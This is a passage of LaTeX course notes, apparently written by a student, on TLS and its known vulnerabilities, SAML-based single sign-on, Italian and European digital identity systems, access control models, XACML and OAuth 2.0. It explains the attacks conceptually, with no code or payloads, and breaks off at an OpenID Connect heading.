    At the first step the client send the Client \textbf{Hello} Message that contains the version of the protocol that the client wants to use and a list of supported cipher suite. A cipher suite is a set of algorithms that help secure a network connection that uses TLS/SSL, usually it includes a key exchange algorithm, a bulk encryption algorithm and a message authentication code (MAC) algorithm. It can also include signatures and authentication algorithms
    \myparagraph{Step 2}
    The server send the server \textbf{Hello} message that contains the chosen protocol, the chosen cipher suite and the session ID
    \myparagraph{Step 3}
    If the client requested an authenticated connection, the server must send a X.509 certificate, a server can request the client to be authenticated too. \textbf{Client Key Exchange}: message sets the premaster secret that will be later used to generate the Master Secret.
    \myparagraph{Step 4}
    If the client has received a Certificate Request message, it must send a X.509 certificate. \textbf{Client Key Exchange}: message sets the pre-master secret that will be later used to generate the master secret. There is also the Certificate Verify, a message that provides explicit verification on the client certificate.

    A pre-master secret is the value obtained from the key exchange, in DH the pre-master secret is $g^{ab} mod p$. The master secret is derived from it by using a pseudo random function (PRF), from the master secret both client and server derive multiple session keys by using again PRF.
    \myparagraph{Step 5}
    Send the Change Cipher Spec, message sent by both parties, once received the partecipant transitions to the agreed cipher suite. Finished message is generate by hashing the entire handshake and sent by both parties
    \myparagraph{Step 6-7}
    From now every message sent will be encrypted using the shared key.
    \\\\
    How SSL and TLS provide identification, authentication, confidentiality and integrity? For the \textbf{server authentication} the client uses the server's public key to encrypt the data that is used to compute the secret key, the server can generate the secret key only if it can decrypt that data with the correct private key. For \textbf{client authentication} the server uses the public key in the client certificate to decrypt the data the client sends during step 4 of the handshake. The exchange of secret messages confirm that the authentication is complete. If any of the authentication steps fail, the handshake fails and the session terminates. The exchange of digital certificates during the SSL or TLS handshake is part of the authentication process.
    
    The \textbf{confidentiality} is provided by a combination of symmetric and asymmetric encryption to ensure message privacy, the encryption algorithms are agreed during the handshake. There is no key distribution problem because TLS use asymmetric encryption.
    
    The \textbf{integrity} is provided by using a Message Authentication Code \textbf{(MAC)}, the use of TLS does ensure data integrity, provided that the CipherSpec in the channel definition uses a suitable hash or MAC algorithm. The MAC is a tag used to confirm that the message came from the stated sender and the MAC allows verifiers to detect any changes to the message content. A MAC algorithm is a family of cryptographic functions that can be used to provide data origin authentication as well as data integrity by producing a MAC on arbitrary messages.
    
    \subsubsection{TLS Vulnerabilities}
    TLS soffers from some security issues for a few reasons:
    \begin{itemize}
        \item Backward compatibility: the protocol still supports weak cipher suites and broken hash functions.
        \item Logical flow: set of logical loopholes can be used to "trick" both client and server.
        \item Implementation issues: Libraries (like \textbf{Openssl}) contains bugs and some of them can be exploited to mount attacks.
    \end{itemize}   
    
    \myparagraph{Nonces}
    A nonce is an arbitrary number that can be used just once in a cryptographic communication, typically it is a pseudo random number issued by one of the parties in a protocol to ensure that old communications cannot be reused in replay attack

    \myparagraph{POODLE}
    The clien initiates the handshake and sends a list of supported SSL/TLS version, an attacker intercepts the traffic, performing a MITM attack and impersonates the server until the client agrees to downgrade the connection to SSL 3.0. At this point the attacker can exploit a weakness in one of the block ciphers supported by SSL 3.0 to guess cookies and other sensitive information.

    \myparagraph{HEARTBLEED}
    Found in the heartbeat extension of the popular OpenSSL library used to keep a connection alive as long as both parties are still there. If the client sent false data length, the server would respond with the data received by the client and random data from its memory to meet the length requirements specified by the sender. Sometimes this random data could be password, credit card number ecc...
    
    \subsection{TLS 1.3}
    It cleaned up the old TLS removing unsafe or unusued features, improved security with respect to modern techniques. It mantained the backward compatibility and encrypted more of the protocol. It has also a \textbf{faster handshake} with 0-RTT and 1-RTT handshake: RSA has been removed, and improved DH to send the required cryptographic parameters for key generation already included in its "hello". If we reuse a key we are in the 0-RTT case, this as an impact in terms of security because the more a key is used the higher is the risk.
    Removed support to algorithms that are a family of algorithm that have a feature of specific key agreement protocols that gives assurances that session keys will not be compromised even if long-term secrets used in the session key exchange are compromised. Now the cipher suites supported are 5 instead of the 319 in TLS 1.2 Added support to \textbf{forward secrecy}, it protects past session against future compromises of keys or password. For example if a long term secret in the session key exchange is compromised, the session will not be compromised. By generating a unique session key for every session a user initiates, the compromise of a single session key will not affect any data other than that exchanged.
    \textbf{Ephemeral Diffie-Hellman} differs from the standard DH in the way that static DH key exchanges always use the same DH private keys, DHE provide a temporary DH key every connection that is always different, this do not more provide the authentication so DHE has to be combined with an additional authentication mechanism.
    
    \section{Authentication 2}
\subsection{Single Sign On (SSO)}
Multiple system typically require multiple sign-on dialogues so this implements password fatigue (multiple sets of credentials and presenting credentials multiple times). The basic idea of \textbf{SSO} is that a user with it's user agent access the application through the service provider, this one refers to an \textbf{identity provider} for the authentication. Than the user provide credential to the identity provider and finally can access the service requested. Credentials never leave the authentication domain, service providers have to \textbf{trust} the authentication domain and the authentication tranfer has to be protected.

\subsection{SAML}
\subsubsection{Introduction}
\textbf{SAML} that stays for Security Assertion Markup Language is a XML like language that it wants to answer to the lack of standards and interoperable solutions for exchanging authentication and authorization information across security domains. SAML distinguish two main entities: the Identity provider (IdP) and the Service Provider (SP), a group of entities is called federation, they share a common policy and are managed as a single entity, in a federation all the entity have to trust each others.

IdP and SP share metadata in whatever form possible, the most important metadata shared is the entity ID and the Public keys.

This is a possible scenario where SAML is used:
\begin{enumerate}
    \item A user want to access an SP.
    \item The user is redirected to a Discovery service, it can be external or embedded, it allows the user to choose the IdP.
    \item The user goes back to the SP with the ID of his own IdP
    \item The user is redirected to the IdP
    \item Authentication is performed
    \item The user goes back to the SP with the authentication
\end{enumerate}
All the steps above are associated with a SAML assertion. 
\subsubsection{Details}
SAML is composed of different components:
\myparagraph{Assertions}
An assertion is a set of statements made by a SAML authority, it can be seen as the unit of information exchanged in SAML. There are three types of assertions:
\begin{itemize}
    \item \textbf{Authentication assertion} is issued by a party that authenticates users, it describe who issued the assertion, when it was created, the authenticated subject, the validity period and other authentication related information like what type of authentication is used. 
    \item \textbf{Attribute assertion} defines specific details about the subject (e.g. Alice has a VIP member status).
    \item \textbf{Authorization assertion} defines something that the subject is entitled to do (e.g. Alice is permitted to rent a car when on a business trip).
\end{itemize}
\myparagraph{Protocols}
A protocol is a set of spectification of how the messages are orchestrated, the protocol used in SAML are usually for authentication of users so the main protocols are coomunications ones and cryptograohic ones.
\myparagraph{Bindings}
We use bindings to bind SAML with other protocols used, are the mechanism to transport messages between requestor and responders like the HTTP redirect.
\myparagraph{Profiles}
SAML 2.0 profiles combine protocols assertions and bindings to create a federation and enable federated single sign on, mainly there are two types of profile:
\begin{itemize}
    \item \textbf{Web browser signle sign-on} provides options regarding the initiationof the message flow and the transport of the messages
    \begin{itemize}
        \item First scenario (IdP-Initiated SSO): A user has a login session on a website and is accessing resources on the site, at some point, either explicitly or transparently, he is directed over to a partner's website. The identity provider site asserts to the service provider site that the user is known, has authenticated to it and has cartain identity attributes. Since the two sites trust theyrselves, it trust that the user is valid and properly authenticated and thus creates a local session for the user.
        \item Second scenario (SP-Initiated SSO): It's more common, it starts with a user visiting an SP site, possibly first accessing resouces that require no special authentication or authorization, when they subsequentialy attempt to access a protected resource at the SP, the SP will send the user to the IdP with an authentication request in order to have the user log in. Once logged in, IdP can produce an assertion that can be used by the SP to validate the user's access rights to the protected resource.
    \end{itemize}
    \item \textbf{Single logout} is used to terminate all the login sessions currently active for a specified user within the federation
\end{itemize}

\myparagraph{Authentication context}
It indicates how a user authenticated at an Identity Provider, the identity provider includes the authentication context in an assertion at the request of a service provider or based on configuration at the Identity Provider. A Service Provider can require information about the authentication process to establish a level of confidence in the assertion before granting access to resources.

\myparagraph{Metadata}
A SAML Metadata document describes a SAML deployment such as SAML identity provider or a SAML service provider, the minimum set of metadata shared are Entity ID, Cryptographic keys and Protocol Endpoints. To establish a baseline of trust, parties share metadata with each other

\subsubsection{Security Considerations}
What prevents a MITM attack that might grab assertions to be illicitly replayed at a later date? SAML defines a number of security mechanisms to detect and protect against such attacks, at first using \textbf{PKI} is raccomanded by SAML, when message integrity and confidentiality are required SSL/TLS is reccomanded, is raccomanded message signing too to ensure integrity. SAML has also other security tricks:
\begin{itemize}
    \item Message expiration: SAML messages should contain a timestamp of when the request was issued, when it expires or both.
    \item Message replay: Assertion should contain a unique ID that is only accepted one by application.
    \item SAML from Different Recipient: An application should only accept a SAML message intended for the SP application
    \item XML External Entity
\end{itemize}
The pricacy in SAML refers to the user's ability to control how their identity data is shared n used and to inhibit their actions at multiple service providers from being inappropriately correlated. SAML supports deployment in privacy with Persistent pseudonymus, one time/transit identifiers, authentication context.

\subsection{National Identity Infrastructures}
\subsubsection{SPID (Sistema Pubblico Identità Digitale)}
It's based on SAML web browser SSO profile, at first service provider download identity and attribute provider list from AgID\footnote{Agency for Digital Italy}, now user contact a service provider, then the service provider redirect the authentication to a identity provider, this one challange the user with the credentials and, if the credentials match, tell the service provider that it's authenticated. Sometimes the SP can ask to another entity, the Attribute Provider, what are the attributs that the authenticated entity own (e.g. ask to motorizzazione civile what car it owns).

There are three type of assurance levels:
\begin{enumerate}
    \item Level 1: some confidence in asserted identity's validity
    \item Level 2: high confidence in asserted identity's validity
    \item Level 3: very high confidence in asserted identity's validity
\end{enumerate}

\myparagraph{SPID Register}
The SPID register are repository of all information related to the entities adhering to the SPID and represents the evidence of the so-called circcle of trust established therein. The relationship of trust on which the federation established  in SPID is achieved through the intermediation of the Agency, third party guarantor, through the process of accreditation of digital identity providers, the attribute authorities and service providers. The \textbf{federation registry} contains the list of entities that have passed the accreditation process and are therefore part of the SPID federation. For each entity the registry contains an entry called AuthorityInfo consisting of: SAML identifier of the entity, name of the subject to which the federation entity refers, type of entity, URL of the metadata provider service and a list of qualified attributes which can be certified by an Attribute Authority. The federation registry is populated by AgID.

\subsubsection{CIE 3.0 (Carta d'Identità Elettronica)}
It stores personal information like:
\begin{itemize}
    \item Name
    \item Surname
    \item Place and date of birth
    \item Residency
    \item Holder's pictures
    \item Two fingerprints
    \item ...
\end{itemize}
It has \textbf{NFC} for acting as electronic identity document and keycard, and it has \textbf{Cryptography} to protect stored datas. It acts like SPID, we can also prove oue identity online with CIE using the button "login with CIE". The process is similar to SPID, we have to download an app and login in the app with our credential (CIE and a PIN), then we can use the app in all the sites that "entra con CIE" button is present, to use this feature we have to click the button, then we have to enter the number shown on CIE, acquire QR 

\subsubsection{European Identity Infrastructure}
SPID is interoperable with eIDAS and CIE too. Example: opening a bank account, an Italian citizen wants to authenticate against a German online service, first the German eIDAS-node (eIDAS-Connector) is directed by the web application to initiate the authentication process, it sends a request to the Italian eIDAS-Node (eIDAS-Service). The Italian eIDAS-Node forwards the user to a system that is equipped to authenticate the Italian citizen using the national eID scheme. After authentication, the German eIDAS-Connector receives the citizen's information which it forwards to the web application. \textbf{eIDAS relies on SAML} for communication between the eIDAS-Connector and eIDAS-Service (called eIDAS-Nodes).
\myparagraph{Vulnerability}
European Commission has provided the eIDAS-Node Integration Package, which can be used as a basis for implementing such a service, it focuses on the SAML parsing code, SEC consult found a vulnerability that basically allowed attackers to bypass the signature verification, allowing them to send any SAML message to an affected eIDAS-Node. Attacker could, for example, send a manipulated SAML response to an eIDAS-Connector to authenticate as anybody
    \section{Access Control}
\subsection{Introduction}
Access control are a set mechanisms that guarantee that user can perform certain actions to certain resources following a \textbf{policy}. The basic AC schema is the following:
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.5]{images/ac.png}
    \caption{Access control schema}
    \label{fig:ac}
\end{figure}

\FloatBarrier

The agent/principal is the entity that want to access a resource, the guard is the Policy Decision Point: where the "real authorization" is computed. There is also the audit log, it allows us to perform an a posteriori reconstruction on who accessed a specific resource.

There are also two isolation boundaries:
\begin{itemize}
    \item The \textbf{outer} one prevents the by-passing of the Guard: all authorization requests go through the Guard, it can be by-passed only by privilege users.
    \item The \textbf{inner} boundary guarantees the integrity of the audit log so this can be inspected to understand what happened and why. Contrary to the other, the inner boundary cannot be by-passed even by privilege users cause that would make auditing meaningless.
\end{itemize}

An example of AC is a multiuser OS: it allows multiple user to use the same computer at the same (or different) time. This means that OS must protect users from each other (e.g. memory protection and file protection), the fundamental tradeoff of OS security is Sharing and Protection. For this purpose let's introduce the \textbf{Principle of least Priviledge:} every subject must be able to access only the information and resources that are necessary for its legitimate purpose.

So AC is the process of mediating requests to resources and data of a system and determining whether a request should be granted or denied. The flow is subject \textit{s} wants to perform action \textit{a} on a resource \textit{r}, the access request \textit{(s, a, r)} is sent to access control module that will return grant/deny. AC protect resources from unauthorized access, the security requirements are specified by \textbf{AC Policy}, a policy is a set of rules to implement specific security properties.

\myparagraph{Structured approach}
\begin{itemize}
    \item \textbf{Policy}: rules that control what actions, subjects may perform on resouces.
    \item \textbf{Model}: mathematical representation of the policy and its working.
    \item \textbf{Enforccement}: low level functions that implement the control imposed by the policy.
\end{itemize}
When policy and model are defined as mathematical objects, the meaning of policies is indipendent of a particular implementation, we apply a separation of concerns (focus on logical level and then develop the enforcement).

\subsection{AC Models}
\myparagraph{AC Matrix}
We can represent it using the Access Control Matrix, given all subjects and objects, the ACM enumerates what actions are allowed fir each subject/object pair. We create a table in which the rows are the subjects and the columns are the files, in the cell there are the actions.
\begin{table}[h!]
    \centering
    \begin{tabular}{|c|c|c|c|c|c|}
    \hline
         s/f & f1 & f2 & f3 & f4 & f5 \\
         \hline
         s1  &    & x, r, w & x & & w\\
         \hline
         s2  & x  & r, w & x, r & x & \\
         \hline
         s3  & r, w  & x, r & x, w & & r\\
         \hline
    \end{tabular}
\end{table}

\FloatBarrier

As we can see this leads us a lot of waste of space (4 blank cells), an enforcement can be use \textbf{Capabilities} and \textbf{Access Control List}.

\myparagraph{Capabilities}
In this case for each subject we have a list of file in which it has access and action that it can perform in the file.
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.4]{images/capabilities.png}
\end{figure}

\FloatBarrier

\myparagraph{Access Control List}
In this case for each file we have a list of subjects that can access the particular file and the action that it can perform.

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.4]{images/ACL.png}
\end{figure}

\FloatBarrier

Several models exist e.g.
\begin{itemize}
    \item \textbf{DAC}: subjects can give rights to other subjects (Discretionary Access Control), it's more democratic, the owner of a resource decides how it can be shared, there isn't a central entity. It's flexible: it's easy to have multiple access to one file but it's problematic in the security point of view (Vulnerable to trojans). Usually enforced using ACL.
    \item \textbf{MAC}: system enforces mandatory rules (Mandatory Access Control). It's the opposite of DAC, one entity (king) decide for all. Usually enforced by using security labels. It's not vulnerable to trojans, it's rigid so is easy to keep the situation under control. It soffer of information leakage, still possible by covert channel.
\end{itemize}

\myparagraph{Multi-Level Security}
The goal is to define policy to prevent the release of sensitive informaitonto untrusted users, the information has different sensitivity levels and the user has different degrees of trustworthiness. Information is compartmentized into separate containers labeled according to their sensitivity label \textbf{L=(S,N)} in which S is the sensitivity and N is a set of "need-to-know" categories. Example : label (Secret, \{Nuclear, Crypto\}). At creation time, each resource is associated to a sensitivity label by resource originator according to some criteria, when a document contains both sensitive and non-sensitive information, the originator needs to use the highest appropriate level.

After associating sensitivity labels to resources, we must establish which users are authorized to access which resources, for this assign \textbf{clearances} which have the same structure of the sensitivity levels associated to resources: each user is associated to a clearance \textbf{C = (S,N)}. S is a hierarchial security level and N is a set of need-to-know categories.

We have to define two important rules:
\begin{itemize}
    \item \textit{No Read Up Property}: subject s can read resource r if it's clearance dominates the resource sensitivity label.
    \item \textit{No Write Down Property}: subject s can write to resource r if the clearance is dominated by the sensitivity label of the resource.
\end{itemize}

Implicit assumption: \textbf{Tranquillity Principle} prevents the ability to change security labels arbitrary as this can subvert security. These proprieties are at the heart of the Bell-La Padula security model introduced in 1973.
\\\\ 
If we think a lot of permissions can be grouped according to the profile of users or the set of functionalities user need to carry out their work.
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.4]{images/acevolution.png}
\end{figure}
\FloatBarrier
As we see in this figure, instead of reapiting the same permissions for each user we can group them in roles, we can now split the table in two tables: one is the User Assignment (UA) table that has the User, Role binding an the other is the Permission Assignment (PA) that has the role, permission binding. Now administration is simplified, when a user gets promoted we only have to modify UA not PA. We can also do better, add a third reppresentation called Role hierarchy in which we gave an hierarchy to roles.

\subsection{Role Based Access Control}
This thing is called \textbf{RBAC}, now permission are assigned to roles rather than to individual users, users are assigned to roles rather then directky to permissions. A \textbf{role} is a job function within the context of an organization. The RBAC schema is the following:

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/rbac.png}
\end{figure}
\FloatBarrier
In the constrained RBAC we introduce the concept of \textbf{Separation of Duty}, is a principle that prevent user to play both role in different situation, so for example if there is a SoD for r1 and r2, u1n cannot be r1 and r2 in the same time. SoD could be static, for example the RH and UA has a static separation of duty (static because is "hardcoded"), or it could be dynamic as it is in the role\_session so for each session a user can be only r1 or r2 not both (for the single session).

\subsection{Attribute Based Access Control}
RBAC is not enaugh, roles are not the best thing for expressing authorization conditions, \textbf{ABAC} (Attribute Based Access Control) is a model that define authorizations that express conditions on properties of both the resource and the subject. It's flexible and expressive power, has the possibility to combine different patterns of authorization and consider authorization conditions depending on encironment attributes.
In ABAC the access is based on 3 different attribute types:
\begin{itemize}
    \item user attributes
    \item attributes associated with the resource to be accessed
    \item environmental conditions
\end{itemize}

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/abac.png}
\end{figure}

\FloatBarrier

In this model authorization is expressed as conditions on these attributes. ABAC has the capability to mimic previous AC models.

\subsection{XACML}
eXtensible Access Control Markup Language is an OASIS standard that was developed for collaborative environments, it can specify access control policies, access control requests and access control decisions and contains more than policy specification language. The three main components are:
\begin{itemize}
    \item XACML policy language: used for specifing access control rules.
    \item XACML request/response protocol: used to query a decision engine that evaluates user access requests against policies.
    \item XACML reference architecture
\end{itemize}
XACML \textbf{policies} are structured as PolicySets, a PolicySet consist of Policies and may include other PolicySets, Policies are composed of Rules. A target defines a Boolean condition: if True the request gets evaluated by a PDP, if False the decision is not applicable.

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/policy.png}
\end{figure}

\FloatBarrier
XACML \textbf{rules} can evaluate to true, false or indeterminate, policies can have multiple rules and can be combined by rule combining algorithms (AND, OR, first applicable, only one applicable\footnote{if more than one decision applies, then the result is indeterminate}). XACML also include the \textbf{obligations}, this is a concept used for describing what must be carried out before or after an access request is approved and denied.
\myparagraph{XACML architecture}

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/xacml_arch.png}
\end{figure}

\FloatBarrier

\begin{itemize}
    \item \textbf{PEP}: Policy Enforcement Point, is the entity protecting the resource, performs access control by making decision requests and enforcing authorization decisions.
    \item \textbf{Context Handler}: A context is the canonical representation of a decision request and an authorization decision, it can be defined to convert the requests in its native dormat to the XACML canonical from and to convert the Authorization decisions in the XACML canonical from to the native format.
    \item \textbf{PDP}: The Policy Decision Point receives and examines the request, retrieves applicable policies, Evaluates the applicabile policy and returns the authorization decision to PEP.
    \item \textbf{PAP}: The Policy Administration Point creates security policies and stores these policies in the repository.
    \item \textbf{PIP}: The Policy Information Point serves as the source of attribute values, or the data required for policy evaluation.
\end{itemize}

\subsection{OAuth 2.0}
Let's introduce OAuth 2.0 with an example: Consider a photo lab printing your online photos, you have a lot of photos to print and you save it in a cloud folder. Straightforward implementations may request to provide your username and password to the other site but when you agree to share your secret credentials, not only do you expose your password to someone else, you also give them full access to do as they wish. This is a problem that OAuth solves, it allows users to grant access to your private resources on one site (which is the Service Provider) to another site (called Consumer/Client).

\myparagraph{How it works}
The involved entities are:
\begin{itemize}
    \item \textbf{Resource owner}: It can access to certain resources and can delegate access to resources, usually is a person.
    \item \textbf{Protected resource}: Is the service provider protecting resources for their owner, it shares resources on owner's request.
    \item \textbf{Client}: Wish to access protected resources, acts on owner's behalf.
    \item \textbf{Authorization server}: Generates tokens for the client, authenticate resource owners and clients and manages authorizations.
\end{itemize}

\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.2]{images/oauth.png}
\end{figure}

\FloatBarrier

Most of the cases the Authorization server and the Service Provider live on the same server. The OAuth token is issued by authorization server and used by client, the format is opaque to client but not for AS and RS, they uderstand whats inside a token performing a database lookup, put info in the token (JWT) or RS query the AS. 

The core protocol is defined only for HTTP, it relies on TLS for securing messages. It's not an authentication protocol, authentication protocols can built using OAuth (OpenID Connect). OAuth is not a single protocol, is a framework consisting of several flows, token has not format, are opaque to the client, they need to be issued by the authorization server and understood by the resource server, but they're free to use whatever format they want (\textbf{JWT} provide a useful common format). OAuth tokens are similar to capabilities: they cam be transferred to other subjects so that permissions are delegated, permissions are decoupled from the identities of subjects.

\myparagraph{Auth Code Flow}
\begin{enumerate}
    \item Client redirects the resource owner to the authorization server's authorization endpoint.
    \item Resource owner authenticates to the authentication server.
    \item Resource owner authorizes the client.
    \item Authorization server redirects resource owner back to the client with an authorization code, this is not yet the access token that allows the client to access the protected resource.
    \item Client sends the authorization code to the authorization server's token endpoint, then client authenticates using its own credentials.
    \item Authorization server issues an OAuth access token to the client.
    \item Client accesses the protected resource using the access token.
\end{enumerate}

\myparagraph{OpenID Connect}
